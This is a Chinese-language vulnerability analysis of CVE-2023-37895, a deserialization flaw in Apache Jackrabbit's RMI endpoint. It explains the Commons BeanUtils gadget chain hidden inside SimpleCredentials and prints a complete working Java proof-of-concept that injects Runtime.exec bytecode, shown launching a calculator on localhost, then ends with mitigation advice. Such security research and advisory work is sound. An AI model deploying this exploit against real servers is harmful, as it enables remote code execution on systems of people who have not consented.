






# 奇安信攻防社区-Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

### Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

# 漏洞分析

Apache Jackrabbit 是一个开源的内容仓库，它实现了 JCR(Java Contents Repository) API 规范。

JCR 是一个用于内容仓库的 Java API，它为内容仓库定义了一套标准接口，以便应用程序可以通过这些标准接口访问不同的内容仓库实现。

Jackrabbit 通过这些 JCR 接口提供了一系列内容仓库功能，比如层次结构节点管理、版本控制、Observation、查询、锁定、事务等。它广泛用于 JavaEE 应用中需要内容仓库功能的场景。

Jackrabbit 的/rmi 路径下提供了 RMI 服务，这可以使远程客户端通过 RMI 协议访问 Jackrabbit 服务器端的内容仓库。客户端可以获取 Repository 对象后，就可以通过 JCR API 对内容仓库进行操作。

通过 web.xml 得到`/rmi`的 Servlet 为`org.apache.jackrabbit.servlet.remote.RemoteBindingServlet`

这里直接通过`RemoteBindingServlet` 的 `getRemoteRepository()` 方法获取 Repository 对象，然后转化为 Stub 代理对象返回给 Response。

跟进看看具体逻辑

这里调用 `getRemoteAdapterFactory()` 获取 `RemoteAdapterFactory` 实例，默认是`ServerAdapterFactory`

然后调用 `ServerAdapterFactory` 的 `getRemoteRepository()` 方法获取 Repository 对象

当客户端获取到 Repository 对象后，可以调用 Repository 的 login 函数

跟进到实现类

继续跟进

最后通过 RMI 将客户端的 Credentials 类传输到了服务端，其中用的 RMI 底层的 JRMP 协议，将客户端序列化后，将序列化数据传输到服务端后再反序列化。如果我们传输的一个恶意 Credentials 对象，则会执行相关的一些恶意代码

该项目包含了 Commons BeanUtils 组件，可利用 Commons BeanUtils 链构造恶意 Credentials 对象

而 Credentials 是一个继承`Serializable`的空接口

我们看到 4 个实现之一的`SimpleCredentials`类，可以用这个类来封装 Commons BeanUtils 攻击链

SimpleCredentials 类中的 attributes 属性是一个 Map:

private Map<String,Object> attributes \\= new HashMap<String,Object>();

它被声明为可以存储任意 Object 类型对象。我们通过 setAttribute() 方法将构造的恶意 PriorityQueue 对象存放到这个 attributes Map 中

SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);

当反序列化包含恶意 PriorityQueue 的 SimpleCredentials 对象时，会递归反序列化它的所有属性，其中就包含了 attributes 这个 Map，反序列化 attributes 时，也会反序列化其中存放的 PriorityQueue 对象，这样就会触发 PriorityQueue 对象中的反序列化逻辑，实现 RCE

# 漏洞复现

POC：

package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import java.lang.reflect.Field;  
import java.util.PriorityQueue;  
​  
import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;  
import javax.jcr.Repository;  
import javax.jcr.SimpleCredentials;  
import static org.example.TemplatesImpl.getTemplatesImpl;  
​  
public class Exp {  
public static void main(String\[\] args) throws Exception {  
byte\[\] code \\= getTemplatesImpl("open -a calculator");  
byte\[\]\[\] codes \\= {code};  
TemplatesImpl obj \\= new TemplatesImpl();  
setFieldValue(obj, "\_bytecodes",codes);  
setFieldValue(obj, "\_name", "aaaa");  
setFieldValue(obj, "\_tfactory", new TransformerFactoryImpl());  
BeanComparator comparator \\= new BeanComparator(null,String.CASE\_INSENSITIVE\_ORDER);  
final PriorityQueue<Object> payload \\= new PriorityQueue<Object>(2, comparator);  
payload.add("1");  
payload.add("1");  
setFieldValue(comparator, "property", "outputProperties");  
setFieldValue(payload, "queue", new Object\[\]{obj, obj});  
​  
​  
SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);  
Repository repository \\= new URLRemoteRepository("[http://localhost:8080/rmi](http://localhost:8080/rmi)");  
repository.login(exp);  
}  
​  
public static void setFieldValue(Object target, String name, Object value) throws Exception {  
Class c \\= target.getClass();  
Field field \\= c.getDeclaredField(name);  
field.setAccessible(true);  
field.set(target,value);  
}  
}  
​  
​

TemplatesImpl 类

package org.example;  
​  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
​  
public class TemplatesImpl {  
public static byte\[\] getTemplatesImpl(String cmd) {  
try {  
ClassPool pool \\= ClassPool.getDefault();  
CtClass ctClass \\= pool.makeClass("Evil");  
CtClass superClass \\= pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
ctClass.setSuperclass(superClass);  
CtConstructor constructor \\= ctClass.makeClassInitializer();  
constructor.setBody(" try {\\n" +  
" Runtime.getRuntime().exec(\\"" + cmd +  
"\\");\\n" +  
" } catch (Exception ignored) {\\n" +  
" }");  
byte\[\] bytes \\= ctClass.toBytecode();  
ctClass.defrost();  
return bytes;  
} catch (Exception e) {  
e.printStackTrace();  
return new byte\[\]{};  
}  
}  
}

运行 POC:

# 处置建议

-   使用网络 ACL 限制访问 JackRabbit 的来源，而且建议如非必要，不要将 JackRabbit 暴露在互联网上
-   官方补丁链接：[https://github.com/apache/jackrabbit/tags](https://github.com/apache/jackrabbit/tags)
